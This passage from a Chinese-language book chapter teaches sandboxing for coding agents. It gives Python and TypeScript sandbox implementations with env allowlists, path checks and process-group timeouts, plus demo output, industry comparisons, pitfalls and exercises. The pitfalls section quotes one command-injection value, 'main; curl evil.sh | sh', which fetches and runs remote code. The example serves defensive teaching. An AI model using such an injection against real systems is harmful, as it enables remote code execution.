    for reader in readers:
        reader.start()

    timed_out = False
    try:
        if stdin is not None and proc.stdin is not None:
            proc.stdin.write(stdin)
            proc.stdin.close()
        proc.wait(timeout=timeout)
    except subprocess.TimeoutExpired:
        timed_out = True
        _kill_group(proc)
    finally:
        for reader in readers:
            reader.join(timeout=2.0)

    duration = time.monotonic() - started
    code = proc.returncode
    signame = ""
    if code is not None and code < 0:
        try:
            signame = signal.Signals(-code).name
        except ValueError:
            signame = f"signal {-code}"
    handle.runs += 1
    result = CommandResult(
        sandbox_id=handle.sandbox_id,
        argv=tuple(args),
        exit_code=code,
        signal=signame,
        stdout=out.text(),
        stderr=err.text(),
        duration_s=duration,
        timed_out=timed_out,
        stdout_total=out.total,
        stderr_total=err.total,
        truncated=(out.total > out.max_chars or err.total > err.max_chars),
    )
    if sink is not None:
        sink("command_finished", {
            "sandbox_id": handle.sandbox_id,
            "exit_code": result.exit_code,
            "signal": result.signal,
            "timed_out": result.timed_out,
            "duration_ms": int(result.duration_s * 1000),
            "stdout_chars": result.stdout_total,
            "stderr_chars": result.stderr_total,
            "truncated": result.truncated,
        })
    return result


def destroy_sandbox(handle: SandboxHandle, *, sink: Optional[EventSink] = None) -> dict[str, Any]:
    if handle.state == "closed":
        return handle.audit()
    handle.state = "closed"
    if not handle.spec.keep_workspace:
        shutil.rmtree(handle.root, ignore_errors=True)
    if sink is not None:
        sink("sandbox_destroyed", {
            "sandbox_id": handle.sandbox_id,
            "runs": handle.runs,
            "kept_workspace": handle.spec.keep_workspace,
        })
    return handle.audit()


def manifest(root: Path) -> dict[str, str]:
    """记录工作区内普通文件的内容哈希，用于变更审计与第 7 章漂移对账。"""
    result: dict[str, str] = {}
    root = Path(root)
    for path in sorted(root.rglob("*")):
        if path.is_symlink() or not path.is_file():
            continue
        result[path.relative_to(root).as_posix()] = hashlib.sha256(path.read_bytes()).hexdigest()
    return result


def changed_files(before: dict[str, str], after: dict[str, str]) -> list[str]:
    paths = set(before) | set(after)
    return sorted(
        path for path in paths
        if before.get(path) != after.get(path)
    )


def flag(value: Any) -> str:
    return "true" if value else "false"


def main() -> None:
    base = Path(tempfile.mkdtemp(prefix="minicoder-base-"))
    (base / "app.py").write_text("print('hi')\n", encoding="utf-8")
    (base / "README.md").write_text("# demo\n", encoding="utf-8")
    base_before = manifest(base)

    events: list[str] = []

    def sink(kind: str, _data: dict[str, Any]) -> None:
        events.append(kind)

    os.environ["MINICODER_API_KEY"] = "sk-demo-secret"
    sandbox = create_sandbox(SandboxSpec(
        read_only_base=base,
        max_output_chars=120,
        timeout_s=2.0,
    ))
    try:
        print("== 1. 创建沙箱 ==")
        print(f"sandbox={sandbox.sandbox_id} backend={sandbox.spec.backend} network={sandbox.spec.network}")
        print(f"files={','.join(sorted(manifest(sandbox.workspace)))}")
        print("secret_in_parent=SET")
        try:
            run_command(
                sandbox,
                [sys.executable, "-c", "print('never')"],
                env={"MINICODER_API_KEY": "leak"},
            )
        except SandboxError:
            print("extra_env_rejected=true")

        print("\n== 2. 正常命令与最小环境 ==")
        result = run_command(
            sandbox,
            [sys.executable, "-c",
             "import os; print('build ok'); "
             "print('MINICODER_API_KEY=' + os.environ.get('MINICODER_API_KEY', '<absent>'))"],
            sink=sink,
        )
        print(f"exit={result.exit_code} signal={result.signal or '-'}")
        for line in result.stdout.splitlines():
            print(f"stdout={line}")

        print("\n== 3. 超时与进程组终止 ==")
        result = run_command(
            sandbox,
            [sys.executable, "-c",
             "import time; print('start', flush=True); time.sleep(30)"],
            timeout_s=0.8,
            sink=sink,
        )
        print(f"timed_out={flag(result.timed_out)} exit={result.exit_code} signal={result.signal}")
        print(f"stdout={result.stdout.strip()}")

        print("\n== 4. 输出上限与截断标记 ==")
        result = run_command(
            sandbox,
            [sys.executable, "-c", "print('x' * 5000)"],
            sink=sink,
        )
        omitted = result.stdout_total - 120
        print(f"stdout_total={result.stdout_total} truncated={flag(result.truncated)} omitted={omitted}")

        print("\n== 5. 工作区变更 ==")
        before = manifest(sandbox.workspace)
        run_command(
            sandbox,
            [sys.executable, "-c",
             "from pathlib import Path; Path('notes.txt').write_text('done', encoding='utf-8')"],
            sink=sink,
        )
        after = manifest(sandbox.workspace)
        print(f"changed={','.join(changed_files(before, after))}")
        print(f"base_unchanged={flag(manifest(base) == base_before)}")

        print("\n== 6. 路径约束与生命周期 ==")
        try:
            run_command(sandbox, [sys.executable, "-c", "print('x')"], cwd="..")
        except SandboxError:
            print("cwd_outside_rejected=true")
        audit = destroy_sandbox(sandbox, sink=sink)
        print(f"destroyed=true workspace_exists={flag(sandbox.workspace.exists())} runs={audit['runs']}")
        try:
            run_command(sandbox, [sys.executable, "-c", "print('x')"])
        except SandboxError:
            print("closed_rejected=true")
        counts: dict[str, int] = {}
        for kind in events:
            counts[kind] = counts.get(kind, 0) + 1
        summary = " ".join(f"{key}={counts[key]}" for key in sorted(counts))
        print(f"events={summary}")
    finally:
        os.environ.pop("MINICODER_API_KEY", None)
        destroy_sandbox(sandbox)
        shutil.rmtree(base, ignore_errors=True)


if __name__ == "__main__":
    main()
```


```typescript
import * as crypto from "node:crypto";
import * as fs from "node:fs";
import * as os from "node:os";
import * as path from "node:path";
import { spawn, type ChildProcess } from "node:child_process";

const DEFAULT_ENV_ALLOWLIST = ["PATH", "LANG", "LC_ALL", "TERM"] as const;

type EventSink = (type: string, data: Record<string, unknown>) => void;

class SandboxError extends Error {}

type SandboxSpec = {
  readOnlyBase?: string;
  envAllowlist: readonly string[];
  timeoutS: number;
  maxOutputChars: number;
  network: "deny" | "allowlist" | "open";
  cpuLimit: number;
  memoryMb: number;
  pidsLimit: number;
  diskMb: number;
  backend: "local" | "container" | "microvm" | "remote";
  image: string;
  keepWorkspace: boolean;
};

const makeSpec = (extra: Partial<SandboxSpec> = {}): SandboxSpec => ({
  readOnlyBase: undefined,
  envAllowlist: DEFAULT_ENV_ALLOWLIST,
  timeoutS: 30.0,
  maxOutputChars: 8000,
  network: "deny",
  cpuLimit: 1.0,
  memoryMb: 512,
  pidsLimit: 64,
  diskMb: 256,
  backend: "local",
  image: "",
  keepWorkspace: false,
  ...extra,
});

type SandboxHandle = {
  sandboxId: string;
  spec: SandboxSpec;
  root: string;
  workspace: string;
  state: "ready" | "closed";
  runs: number;
  createdAt: number;
};

type CommandResult = {
  sandboxId: string;
  argv: string[];
  exitCode: number | null;
  signal: string;
  stdout: string;
  stderr: string;
  durationS: number;
  timedOut: boolean;
  stdoutTotal: number;
  stderrTotal: number;
  truncated: boolean;
};

type Audit = {
  sandbox_id: string;
  backend: string;
  state: string;
  runs: number;
  network: string;
  workspace: string;
};

const audit = (handle: SandboxHandle): Audit => ({
  sandbox_id: handle.sandboxId,
  backend: handle.spec.backend,
  state: handle.state,
  runs: handle.runs,
  network: handle.spec.network,
  workspace: fs.existsSync(handle.root) ? handle.workspace : "",
});

const resolveCwd = (handle: SandboxHandle, raw?: string): string => {
  let candidate: string;
  try {
    candidate = fs.realpathSync(path.resolve(handle.workspace, raw ?? "."));
  } catch {
    throw new SandboxError(`工作目录不存在：${raw ?? "."}`);
  }
  if (candidate !== handle.workspace && !candidate.startsWith(handle.workspace + path.sep)) {
    throw new SandboxError(`工作目录 ${raw ?? "."} 超出沙箱工作区`);
  }
  if (!fs.statSync(candidate).isDirectory()) {
    throw new SandboxError(`工作目录不是目录：${raw ?? "."}`);
  }
  return candidate;
};

const buildEnv = (handle: SandboxHandle, extra?: Record<string, string>): Record<string, string> => {
  const env: Record<string, string> = {
    HOME: path.join(handle.root, "home"),
    TMPDIR: path.join(handle.root, "tmp"),
  };
  for (const name of handle.spec.envAllowlist) {
    const value = process.env[name];
    if (value !== undefined) env[name] = value;
  }
  if (extra) {
    const allowed = new Set(handle.spec.envAllowlist);
    for (const [key, value] of Object.entries(extra)) {
      if (!allowed.has(key)) throw new SandboxError(`环境变量 ${key} 不在白名单内`);
      env[key] = value;
    }
  }
  return env;
};

class Capture {
  maxChars: number;
  headLimit: number;
  tailLimit: number;
  head = "";
  tail = "";
  total = 0;

  constructor(maxChars: number) {
    this.maxChars = Math.max(1, maxChars);
    this.headLimit = Math.floor(this.maxChars * 0.7);
    this.tailLimit = this.maxChars - this.headLimit;
  }

  feed(chunk: string): void {
    if (!chunk) return;
    this.total += chunk.length;
    if (this.head.length < this.headLimit) {
      const room = this.headLimit - this.head.length;
      this.head += chunk.slice(0, room);
      chunk = chunk.slice(room);
    }
    if (chunk && this.tailLimit > 0) {
      this.tail = (this.tail + chunk).slice(-this.tailLimit);
    }
  }

  text(): string {
    if (this.total <= this.maxChars) return this.head + this.tail;
    const omitted = this.total - this.maxChars;
    return `${this.head}\n…[truncated ${omitted} chars]\n${this.tail}`;
  }
}

const killGroup = (child: ChildProcess, signal: NodeJS.Signals): void => {
  if (child.pid === undefined) return;
  try {
    process.kill(-child.pid, signal); // detached=true 时，负 PID 表示整个进程组
  } catch {
    // 进程已退出时忽略
  }
};

let sandboxCounter = 0;

function createSandbox(spec: SandboxSpec): SandboxHandle {
  if (spec.backend !== "local") {
    throw new SandboxError(`教学实现只提供 local 后端；${spec.backend} 需要接入真实隔离运行时`);
  }
  sandboxCounter += 1;
  const root = fs.mkdtempSync(path.join(os.tmpdir(), "minicoder-sbx-"));
  const workspace = path.join(root, "workspace");
  fs.mkdirSync(workspace);
  fs.mkdirSync(path.join(root, "home"));
  fs.mkdirSync(path.join(root, "tmp"));
  if (spec.readOnlyBase) {
    // 教学实现用整树复制模拟 OverlayFS 的下层；生产用只读挂载 + 可写层。
    fs.cpSync(path.resolve(spec.readOnlyBase), workspace, { recursive: true, dereference: false });
  }
  return {
    sandboxId: `sbx-${String(sandboxCounter).padStart(4, "0")}`,
    spec,
    root,
    workspace: fs.realpathSync(workspace),
    state: "ready",
    runs: 0,
    createdAt: Date.now() / 1000,
  };
}

async function runCommand(
  handle: SandboxHandle,
  argv: string[],
  opts: {
    cwd?: string;
    timeoutS?: number;
    stdin?: string;
    env?: Record<string, string>;
    sink?: EventSink;
  } = {},
): Promise<CommandResult> {
  if (handle.state !== "ready") throw new SandboxError(`沙箱 ${handle.sandboxId} 已关闭`);
  if (!Array.isArray(argv) || argv.length === 0 || !argv.every((item) => typeof item === "string")) {
    throw new SandboxError("argv 必须是非空字符串数组；不要把 shell 字符串传进来");
  }
  const cwd = resolveCwd(handle, opts.cwd);
  const env = buildEnv(handle, opts.env);
  const timeoutS = opts.timeoutS ?? handle.spec.timeoutS;
  if (!(timeoutS > 0)) throw new SandboxError("timeoutS 必须为正数");
  const relativeCwd = path.relative(handle.workspace, cwd).split(path.sep).join("/") || ".";
  opts.sink?.("command_started", {
    sandbox_id: handle.sandboxId,
    argv,
    cwd: relativeCwd,
  });

  const started = process.hrtime.bigint();
  const child = spawn(argv[0], argv.slice(1), {
    cwd,
    env,
    detached: true,
    stdio: ["pipe", "pipe", "pipe"],
  });
  const out = new Capture(handle.spec.maxOutputChars);
  const err = new Capture(handle.spec.maxOutputChars);
  child.stdout!.setEncoding("utf8");
  child.stderr!.setEncoding("utf8");
  child.stdin!.on("error", () => {
    // 子进程提前退出时写入 stdin 会得到 EPIPE，交给 close 统一处理
  });

  return await new Promise<CommandResult>((resolve, reject) => {
    let settled = false;
    let timedOut = false;
    let timer: ReturnType<typeof setTimeout> | undefined;
    let sigkillTimer: ReturnType<typeof setTimeout> | undefined;

    const finish = (code: number | null, signalName: string | null): void => {
      if (settled) return;
      settled = true;
      if (timer) clearTimeout(timer);
      if (sigkillTimer) clearTimeout(sigkillTimer);
      handle.runs += 1;
      let exitCode = code;
      const signame = signalName ?? "";
      if (code === null && signalName) {
        const number = (os.constants.signals as Record<string, number>)[signalName];
        if (number !== undefined) exitCode = -number;
      }
      const result: CommandResult = {
        sandboxId: handle.sandboxId,
        argv: [...argv],
        exitCode,
        signal: signame,
        stdout: out.text(),
        stderr: err.text(),
        durationS: Number(process.hrtime.bigint() - started) / 1e9,
        timedOut,
        stdoutTotal: out.total,
        stderrTotal: err.total,
        truncated: out.total > out.maxChars || err.total > err.maxChars,
      };
      opts.sink?.("command_finished", {
        sandbox_id: result.sandboxId,
        exit_code: result.exitCode,
        signal: result.signal,
        timed_out: result.timedOut,
        duration_ms: Math.floor(result.durationS * 1000),
        stdout_chars: result.stdoutTotal,
        stderr_chars: result.stderrTotal,
        truncated: result.truncated,
      });
      resolve(result);
    };

    child.on("error", (error) => {
      if (settled) return;
      settled = true;
      if (timer) clearTimeout(timer);
      if (sigkillTimer) clearTimeout(sigkillTimer);
      reject(new SandboxError(`命令启动失败：${error.message}`));
    });
    child.stdout!.on("data", (chunk: string) => out.feed(chunk));
    child.stderr!.on("data", (chunk: string) => err.feed(chunk));
    child.on("close", (code, signalName) => finish(code, signalName));

    timer = setTimeout(() => {
      timedOut = true;
      killGroup(child, "SIGTERM");
      sigkillTimer = setTimeout(() => killGroup(child, "SIGKILL"), 500);
    }, timeoutS * 1000);
    if (opts.stdin !== undefined) child.stdin!.write(opts.stdin);
    child.stdin!.end();
  });
}

function destroySandbox(handle: SandboxHandle, opts: { sink?: EventSink } = {}): Audit {
  if (handle.state === "closed") return audit(handle);
  handle.state = "closed";
  if (!handle.spec.keepWorkspace) fs.rmSync(handle.root, { recursive: true, force: true });
  opts.sink?.("sandbox_destroyed", {
    sandbox_id: handle.sandboxId,
    runs: handle.runs,
    kept_workspace: handle.spec.keepWorkspace,
  });
  return audit(handle);
}

function manifest(root: string): Record<string, string> {
  const result: Record<string, string> = {};
  const walk = (dir: string): void => {
    const entries = fs
      .readdirSync(dir, { withFileTypes: true })
      .sort((left, right) => left.name.localeCompare(right.name));
    for (const entry of entries) {
      const full = path.join(dir, entry.name);
      if (entry.isSymbolicLink()) continue;
      if (entry.isDirectory()) walk(full);
      else if (entry.isFile()) {
        const rel = path.relative(root, full).split(path.sep).join("/");
        result[rel] = crypto.createHash("sha256").update(fs.readFileSync(full)).digest("hex");
      }
    }
  };
  walk(root);
  return result;
}

function changedFiles(before: Record<string, string>, after: Record<string, string>): string[] {
  const paths = new Set([...Object.keys(before), ...Object.keys(after)]);
  return [...paths].filter((key) => before[key] !== after[key]).sort();
}

// ---------- 演示 ----------
async function main(): Promise<void> {
  const base = fs.mkdtempSync(path.join(os.tmpdir(), "minicoder-base-"));
  fs.writeFileSync(path.join(base, "app.py"), "print('hi')\n");
  fs.writeFileSync(path.join(base, "README.md"), "# demo\n");
  const baseBefore = manifest(base);

  const events: string[] = [];
  const sink: EventSink = (type) => {
    events.push(type);
  };

  process.env.MINICODER_API_KEY = "sk-demo-secret";
  const sandbox = createSandbox(makeSpec({ readOnlyBase: base, maxOutputChars: 120, timeoutS: 2.0 }));
  try {
    console.log("== 1. 创建沙箱 ==");
    console.log(`sandbox=${sandbox.sandboxId} backend=${sandbox.spec.backend} network=${sandbox.spec.network}`);
    console.log(`files=${Object.keys(manifest(sandbox.workspace)).sort().join(",")}`);
    console.log("secret_in_parent=SET");
    try {
      await runCommand(sandbox, [process.execPath, "-e", "console.log('never')"], {
        env: { MINICODER_API_KEY: "leak" },
      });
    } catch (err) {
      if (err instanceof SandboxError) console.log("extra_env_rejected=true");
      else throw err;
    }

    console.log("\n== 2. 正常命令与最小环境 ==");
    const normal = await runCommand(
      sandbox,
      [
        process.execPath,
        "-e",
        "console.log('build ok'); console.log('MINICODER_API_KEY=' + (process.env.MINICODER_API_KEY ?? '<absent>'))",
      ],
      { sink },
    );
    console.log(`exit=${normal.exitCode} signal=${normal.signal || "-"}`);
    for (const line of normal.stdout.split(/\r?\n/)) {
      if (line) console.log(`stdout=${line}`);
    }

    console.log("\n== 3. 超时与进程组终止 ==");
    const timeout = await runCommand(
      sandbox,
      [process.execPath, "-e", "console.log('start'); setInterval(() => {}, 1000)"],
      { timeoutS: 0.8, sink },
    );
    console.log(`timed_out=${timeout.timedOut} exit=${timeout.exitCode} signal=${timeout.signal}`);
    console.log(`stdout=${timeout.stdout.trim()}`);

    console.log("\n== 4. 输出上限与截断标记 ==");
    const big = await runCommand(
      sandbox,
      [process.execPath, "-e", "console.log('x'.repeat(5000))"],
      { sink },
    );
    console.log(
      `stdout_total=${big.stdoutTotal} truncated=${big.truncated} omitted=${big.stdoutTotal - 120}`,
    );

    console.log("\n== 5. 工作区变更 ==");
    const before = manifest(sandbox.workspace);
    await runCommand(
      sandbox,
      [process.execPath, "-e", "require('node:fs').writeFileSync('notes.txt', 'done')"],
      { sink },
    );
    const after = manifest(sandbox.workspace);
    console.log(`changed=${changedFiles(before, after).join(",")}`);
    console.log(`base_unchanged=${JSON.stringify(manifest(base)) === JSON.stringify(baseBefore)}`);

    console.log("\n== 6. 路径约束与生命周期 ==");
    try {
      await runCommand(sandbox, [process.execPath, "-e", "console.log('x')"], { cwd: ".." });
    } catch (err) {
      if (err instanceof SandboxError) console.log("cwd_outside_rejected=true");
      else throw err;
    }
    const info = destroySandbox(sandbox, { sink });
    console.log(`destroyed=true workspace_exists=${fs.existsSync(sandbox.workspace)} runs=${info.runs}`);
    try {
      await runCommand(sandbox, [process.execPath, "-e", "console.log('x')"]);
    } catch (err) {
      if (err instanceof SandboxError) console.log("closed_rejected=true");
      else throw err;
    }
    const counts = new Map<string, number>();
    for (const kind of events) counts.set(kind, (counts.get(kind) ?? 0) + 1);
    const summary = [...counts.keys()].sort().map((key) => `${key}=${counts.get(key)}`).join(" ");
    console.log(`events=${summary}`);
  } finally {
    delete process.env.MINICODER_API_KEY;
    destroySandbox(sandbox);
    fs.rmSync(base, { recursive: true, force: true });
  }
}

main().catch((error) => {
  console.error(error);
  process.exitCode = 1;
});
```



运行结果：

```text
== 1. 创建沙箱 ==
sandbox=sbx-0001 backend=local network=deny
files=README.md,app.py
secret_in_parent=SET
extra_env_rejected=true

== 2. 正常命令与最小环境 ==
exit=0 signal=-
stdout=build ok
stdout=MINICODER_API_KEY=<absent>

== 3. 超时与进程组终止 ==
timed_out=true exit=-15 signal=SIGTERM
stdout=start

== 4. 输出上限与截断标记 ==
stdout_total=5001 truncated=true omitted=4881

== 5. 工作区变更 ==
changed=notes.txt
base_unchanged=true

== 6. 路径约束与生命周期 ==
cwd_outside_rejected=true
destroyed=true workspace_exists=false runs=4
closed_rejected=true
events=command_finished=4 command_started=4 sandbox_destroyed=1
```

这段输出对应五个设计点：

1. **工作区是复制出来的可写层**。基座里的 `app.py`、`README.md` 被复制进沙箱，任务写入 `notes.txt` 后基座哈希不变；销毁时删掉整个临时根目录，可写层随之消失。
2. **环境是最小集合**。父进程里有 `MINICODER_API_KEY`，但白名单没有它，子进程读到 `<absent>`；试图通过 `env` 参数额外注入，会在构造环境时被拒绝。
3. **超时终止的是进程组**。命令睡 30 秒，0.8 秒后收到 `SIGTERM`，退出码为 `-15`。只杀父进程的实现会留下后台子进程，这里用 `start_new_session` 与 `killpg` 避免。
4. **输出上限在执行期生效**。5000 字符的输出只保留 120 字符的头尾，中间标记省略量；剩余字节继续排空，不会因为管道写满而卡死子进程。
5. **审计与生命周期可查**。每个事件带 `sandbox_id`，销毁后工作区不存在，再次执行会被拒绝。

接入第 5 章的工具层时，只需要一个薄适配器：把 `argv` 参数交给 `run_command()`，把 `CommandResult` 转成 `ToolResult`。命令工具的风险等级应设为 `destructive`，不要声明 `parallel_safe`：

```python
def make_run_command(sandbox: SandboxHandle, *, timeout_s: float = 30.0) -> Tool:
    async def handler(args: dict[str, Any]) -> ToolResult:
        result = run_command(sandbox, args["argv"], timeout_s=timeout_s)
        if result.timed_out:
            return ToolResult(ok=False, content=result.to_observation(),
                              error_code="timeout", metadata={"sandbox_id": result.sandbox_id})
        return ToolResult(
            ok=result.exit_code == 0,
            content=result.to_observation(),
            error_code="" if result.exit_code == 0 else "execution_failed",
            truncated=result.truncated,
            metadata={"sandbox_id": result.sandbox_id, "exit_code": result.exit_code},
        )

    return Tool(
        ToolSpec("run_command", "在沙箱内执行 argv 数组形式的命令。",
                 {"type": "object", "additionalProperties": False,
                  "required": ["argv"],
                  "properties": {"argv": {"type": "array", "items": {"type": "string"}}}}),
        handler, parallel_safe=False, risk="destructive", timeout_s=timeout_s + 5,
    )
```

`loop.py` 不需要知道沙箱细节，它仍然只处理 `ToolResult`。`subagent.py` 则应当在委派契约里增加“沙箱策略”：子代理默认使用只读基座与更小的输出上限，写操作使用独立可写层。第 13 章组装时，沙箱应当在会话启动时创建、在会话结束时销毁，而不是每条命令都新建。

## 10.10 业界案例：从命令策略到操作系统沙箱

主流编码 Agent 在这件事上走了两条路。

第一条是**操作系统级沙箱**。Codex CLI 提供只读、工作区可写、完全放开等运行模式，底层依赖各平台的沙箱能力；Claude Code 也提供沙箱执行选项，把命令限制在工作区与受控网络内。具体实现随平台和版本变化，使用前应以官方文档为准。这条路的优点是启动快、与开发环境贴合；缺点是隔离强度受宿主操作系统能力限制，跨平台行为不完全一致。

第二条是**容器或 microVM 运行时**。OpenHands 一类平台把 Agent 放进容器执行，工作区作为挂载卷；面向多租户的托管沙箱则常用 Firecracker 一类 microVM，每次任务一个独立内核。这条路的优点是隔离边界清晰、便于集中回收；缺点是冷启动、镜像管理与网络配置更复杂。

两条路的工程结论是一致的：

1. **默认拒绝网络，例外显式批准**。允许出站的系统，数据外泄只需要一次成功请求；默认拒绝把“会不会泄”变成“能不能连”。
2. **只挂载工作区，不挂载主目录**。大量事故不是命令本身多危险，而是命令能看见本不该看见的 `~/.ssh`、云凭证和宿主 socket。
3. **命令策略用于体验，沙箱用于安全**。黑名单能提前拦住明显的误操作，但绕过方式无穷无尽；不要把安全押在字符串匹配上。

## 10.11 常见陷阱

1. **把审批当隔离**。用户批准了 `npm test`，就以为测试代码的所有副作用都被批准了。审批是意图，沙箱才是能力；没有沙箱，审批越粗，事故越大。
2. **用字符串拼 shell 命令**。`"git checkout " + branch` 遇到 `branch = "main; curl evil.sh | sh"` 就变成远程代码执行。默认 argv 数组，shell 模式必须显式开启并单独审计。
3. **只杀父进程，不杀进程组**。超时后 `proc.kill()` 只结束直接子进程，测试框架的 worker、后台服务、`sleep` 子进程仍在运行，继续占资源甚至继续写文件。用独立进程组与 `killpg`。
4. **输出不设上限**。编译日志或死循环输出会把 Harness 内存打满，也会把上下文预算瞬间耗尽。按流截断、保留头尾、继续排空。
5. **把密钥放进环境变量或命令行**。子进程、崩溃转储、`ps`、日志都能看到。用短期令牌或凭证代理，日志只记键名与哈希。

## 10.12 本章小结

- 权限回答“要不要做”，沙箱回答“允许之后最多能造成多大破坏”；两者不能互相替代。
- 隔离分为文件、进程、网络、资源、凭证、设备六个维度，没有单一机制能覆盖全部，需要纵深防御。
- 选型按信任边界优先：本地进程只适合可信代码；容器适合单租户；microVM 或远程沙箱适合多租户与不可信代码。
- 工作区采用只读基座 + 每任务可写层；路径检查挡模型参数，挂载隔离挡子进程，两者缺一不可。
- 命令执行默认 argv 数组，固定工作目录，环境变量白名单，进程组 `SIGTERM → SIGKILL`，输出设上限并显式截断。
- 网络默认拒绝出站，按需白名单；凭证用短期令牌或凭证代理，绝不进入命令行、日志与追踪。
- 资源限制分单命令与单沙箱两层；生命周期为创建、执行、快照、销毁，复用必须重置可写层。
- 审计要回答“在哪个沙箱、以什么身份、改了什么”；工作区快照差异与第 7 章的漂移检测互补。
- 本地教学实现不是安全边界；生产环境必须换成真正的隔离运行时。

## 10.13 思考题

1. 你所在团队要为一个多租户编码 Agent 选执行后端。用户会上传不可信仓库，任务平均运行 3 分钟，偶尔需要安装依赖。你会选容器、microVM 还是远程沙箱？请从隔离强度、冷启动、网络策略和凭证注入四个方面说明理由。
2. 用户批准了“运行测试”，但测试代码是恶意的。列出它可能造成的五类副作用，并说明沙箱的哪一层能限制、哪一层仍然无法限制。剩余风险应该如何告知用户？
3. 在单机开发场景里，本地进程沙箱可以接受吗？如果接受，你会用哪些约束降低误操作概率？如果不接受，最小的可行替代方案是什么？
